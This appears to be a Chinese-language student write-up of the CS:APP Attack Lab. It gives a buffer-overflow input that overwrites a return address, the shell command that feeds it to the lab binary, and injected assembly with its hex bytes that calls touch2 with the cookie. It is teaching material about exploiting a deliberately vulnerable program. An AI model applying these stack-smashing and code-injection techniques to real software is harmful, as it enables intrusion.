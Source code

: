 ```cpp

56
34
12
(从下往上地址值变大)
所以一个可行的值是
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00
```

```shell
echo 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 > tmp
cat tmp | ./hex2raw | ./ctarget -q
```
level1 完成


# phase2 (4.2)
```cpp
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n",val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n",val);
        fail2(2);
    }
    exit(0);
}
```
需要通过getbuf调用touch2函数并 使touch2函数的传入参数是 cookie

•您将希望以这样一种方式定位注入代码地址的字节表示，即getbuf代码末尾的ret指令将把控制权转移给它。

•回想一下，函数的第一个参数是在寄存器%rdi中传递的。

•您注入的代码应将寄存器设置为cookie，然后使用ret指令将控制权转移到touch2中的第一条指令。

•不要试图在利用漏洞的代码中使用jmp或调用指令。这些指令的目的地地址编码很难制定。使用ret指令进行所有控制权转移，即使您没有从呼叫返回。

•请参阅附录B中关于如何使用工具生成指令序列的字节级表示的讨论。
```cpp
//解题过程
需要让0x202ce2(%rip)  和  edi值相等
%rip程序计数器的值是下一条指令的地址(0x401802)
可以在缓冲区插入代码，代码执行完后调用touch2函数
插入的代码如下

mov $0x202ce2, %edi
add $0x401802, %edi
mov (%edi), %edi
push $0x4017ec
ret

对应的十六进制:
bf e2 2c 20 00
81 c7 02 18 40 00
67 8b 3f
68 ec 17 40 00
```